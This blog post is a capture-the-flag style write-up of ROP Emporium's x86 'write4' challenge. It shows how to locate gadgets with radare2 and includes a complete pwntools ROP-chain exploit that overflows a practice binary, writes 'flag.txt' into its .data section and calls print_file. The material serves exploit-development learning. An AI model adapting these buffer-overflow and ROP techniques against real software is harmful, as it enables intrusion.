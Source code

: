 ```yaml
---
layout: post
title:  "ROP Emporium write4 Writeup (x86)"
date:   2024-06-04 13:15:45 -0400
categories: rop-emporium write4
tags: rop-emporium write4 x86 writeup buffer-overflow rop reverse-engineering 32-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[fourth challenge](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/write4.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call `print_file()` with the name of the
file to read as the first argument. The string `flag.txt`
doesn't exist in the binary, so we will need to write it
there ourselves!

## Exploit Crafting
The offset for `x86` challenges will be `44 bytes`. If
you want to know how to find this value see the
[first writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}
for this series.

### Write Gadget
> Check out `usefulFunction`'s assembly
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. We will need to write `flag.txt` to
memory so let's check the `usefulGadgets` section
in `usefulFunction`
We can view the assembly with the following commands

```
s sym.usefulFunction
V
p
```

![useful gadgets](/images/write4/x86-useful-gadgets.png)

The `mov` instruction will set the value from
`ebp` (4 byte qword) into the dereferenced address 
set in `edi`. This is what we'll use to write to memory!
The gadget address is `0x08048543`

### Mov Arguments
> Find a gadget to control `edi` and `ebp` along with
> a writable program segment
{: .prompt-tip }
Now we need to find a gadget which can control `edi` and
`ebp` to control what to write and where to write it. We
can use the `/R` command to search for gadgets
```
/R pop edi
```

![mov args gadget](/images/write4/x86-mov-args-gadget.png)

There are a few which come up but might as well use
this one. Remember we can control where we jump so we
can skip the `pop ebx` and `pop esi` instructions 
entirely! The address we'll use to set `edi` and 
`ebp` is `0x080485aa`

Now that we can control where to write and what to write,
where and what should we write? We want to open `flag.txt`
so we'll set that into `ebp`. But we need to find a
suitable location to write to. We can view writable
sections with the command `iS`

![writable sections](/images/write4/x86-writable-sections.png)

We need to find a section with the `w` permission and a
size of at least 8 bytes (0x08). Let's use the `.data`
section which has the address `0x0804a018`

The python code to write data to an address looks
like this
```python
#!/bin/python3
from pwn import *

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 4 bytes of a string
    for i in range(0, len(s), 4):
        # address to write to
        edi = p32(addr + i)

        # prevent slice out of bounds
        j = i+4
        if j >= len(s):
            j = len(s)

        # 4 bytes to write
        ebp = p32(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p32(pop_edi_ebp)
        payload += edi
        payload += ebp

        # write bytes
        payload += p32(write_gadget)
    return payload
```

### print_file()
> Find the `print_file` address and a gadget which
> `pop`s any register
{: .prompt-tip }

First let's find the address of `print_file()` using
the command `afl`

![print-file-addr](/images/write4/x86-print-file-addr.png)

`print_file` is part of a library so we can just use the
address of corresponding `plt` entry, `0x080483d0`

Now we need to set the first argument to this function.
According to the
[x86 calling convention](https://aaronbloomfield.github.io/pdr/book/x86-32bit-ccc-chapter.pdf){:target="_blank"}{:rel="noopener noreferrer"},
function arguments are passed through the stack. Remember
from the
[callme challenge]({% post_url 2024-06-02-rop-emporium-callme-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}
that we'll need to set a `pop` gadget as a function's return
address to keep the stack maintained for additional function
calls. We can just use the `pop` gadget we found earlier!

![pop gadget](/images/write4/x86-mov-args-gadget.png)

Since we only want to `pop` one argument off of the
stack we can just execute `pop ebp`. This makes our
gadget address `0x080485ab`

Here's a reusable function to add arguments to the stack
in `x86`
```python
#!/bin/python3
from pwn import *

# add arguments to stack (x86)
def add_args(args):
    # fix stack after func returns
    payload = p32(pop_ebp)
    for a in args:
        payload += p32(a)
    return payload
```

## Exploit
We finally have everything to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
write_gadget = 0x08048543   # mov qword [edi], ebp
pop_edi_ebp = 0x080485aa
data_addr = 0x0804a018
print_file_addr = 0x080483d0
pop_ebp = 0x080485ab

# write byte string s to address addr
# return payload in bytes
def write_str(addr, s):
    payload = b''
    # write every 4 bytes of a string
    for i in range(0, len(s), 4):
        # address to write to
        edi = p32(addr + i)

        # prevent slice out of bounds
        j = i+4
        if j >= len(s):
            j = len(s)

        # 4 bytes to write
        ebp = p32(int.from_bytes(s[i:j], 'little'))

        # set mov args
        payload += p32(pop_edi_ebp)
        payload += edi
        payload += ebp

        # write bytes
        payload += p32(write_gadget)
    return payload

# add arguments to stack (x86)
def add_args(args):
    # fix stack after func returns
    payload = p32(pop_ebp)
    for a in args:
        payload += p32(a)
    return payload

# create payload
payload = b'A' * 44

# write flag.txt to data section
payload += write_str(data_addr, b'flag.txt')

# call print_file(flag_txt_addr)
payload += p32(print_file_addr)
payload += add_args([data_addr])

# send payload + receive flag
io = process('./write432')
io.send(payload)
io.recvuntil(b'Thank you!\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```
![flag](/images/write4/x86-flag.png)

## Conclusion
In this challenge we learned how to write arbitrary
data to memory. By this point we should be relatively
comfortable finding and chaining gadgets together. Next
we'll learn how to deal with forbidden characters in
our payload.

[Previous Challenge (callme)]({% post_url 2024-06-02-rop-emporium-callme-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

Next Challenge (badchars)

[write4 x64]({% post_url 2024-06-03-rop-emporium-write4-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}

